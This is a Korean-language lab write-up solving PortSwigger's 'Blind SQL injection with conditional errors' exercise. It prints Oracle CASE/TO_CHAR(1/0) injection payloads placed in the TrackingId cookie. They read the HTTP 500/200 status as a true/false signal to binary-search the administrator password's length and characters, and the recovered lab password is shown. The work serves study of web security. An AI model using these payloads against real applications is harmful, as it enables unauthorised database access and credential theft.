


# Blind SQL injection with conditional errors

## 문제 조건과 설명

`TrackingId` 쿠키가 SQL 조회에 들어간다. 조회 결과는 화면에 보이지 않지만 SQL 오류가 나면 응답이 달라진다. 주어진 `users(username, password)` 테이블에서 `administrator`의 비밀번호를 알아내 로그인하는 실습이다.

[PortSwigger 실습](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

## 탐색 및 풀이 기록

### 초기 관찰

#### 오류를 참·거짓 신호로 확인

원래 쿠키 값 뒤에 `UNION SELECT`를 붙여 조건이 참일 때만 `1/0`을 계산하도록 했다. `1=2`는 HTTP 200, `1=1`은 HTTP 500이었다. 따라서 이 인스턴스에서는 **500을 참, 200을 거짓**으로 읽을 수 있었다. `TO_CHAR`는 `CASE`의 두 결과를 문자열로 맞춘다.

~~~sql fragment
<원래 TrackingId>' UNION SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE 'x' END FROM dual -- -
~~~

시간 분산을 이용하려는 실험에서는 단계 수에 따른 차이가 재현되지 않아 판정 신호로 사용하지 않았다.

### 실행 과정

#### 비밀번호 길이 확인

`LENGTH(password)`가 중간값보다 큰지 물으며 범위를 절반씩 줄였다. `administrator`의 비밀번호 길이는 **20자**였다.

~~~sql fragment
<원래 TrackingId>' UNION SELECT CASE WHEN (
  (SELECT LENGTH(password) FROM users WHERE username='administrator') > <중간값>
) THEN TO_CHAR(1/0) ELSE 'x' END FROM dual -- -
~~~

#### 문자별 ASCII 이진 탐색

1번부터 20번 위치까지 `ASCII(SUBSTR(password, 위치, 1))`를 중간값과 비교했다. 각 요청의 200/500 결과에 따라 다음 탐색 범위를 좁혔다.

~~~sql fragment
<원래 TrackingId>' UNION SELECT CASE WHEN (
  (SELECT ASCII(SUBSTR(password, <위치>, 1))
   FROM users WHERE username='administrator') > <중간값>
) THEN TO_CHAR(1/0) ELSE 'x' END FROM dual -- -
~~~

추출한 값은 `r1dh0o4d1wwq9nz7lox8`이었다. 비밀번호 전체를 조건으로 다시 물어 **검증 성공**을 확인했다. 요청을 만들 때는 PowerShell의 `CookieContainer` 대신 `Cookie` 헤더를 직접 사용했다.

#### 관리자 로그인

확인한 비밀번호로 로그인하자 `administrator` 계정 화면에 실습 완료 배너가 표시됐다.

## 최종 결과

HTTP 200/500 신호로 20자 비밀번호를 복원하고 전체 값을 검증했다. 그 값으로 로그인해 `administrator` 계정 화면과 실습 완료 배너를 확인했다.

## 배운 점

오류의 내용이 보이지 않아도 상태 코드가 조건에 따라 달라지면 한 번의 요청으로 참·거짓을 판별할 수 있다. 그래서 길이와 문자 값을 순서대로 좁힐 수 있었다.

## 관련 개념

- [SQL 기초와 SQL 인젝션이 생기는 원리](../../concepts/sql-injection-foundations.md)
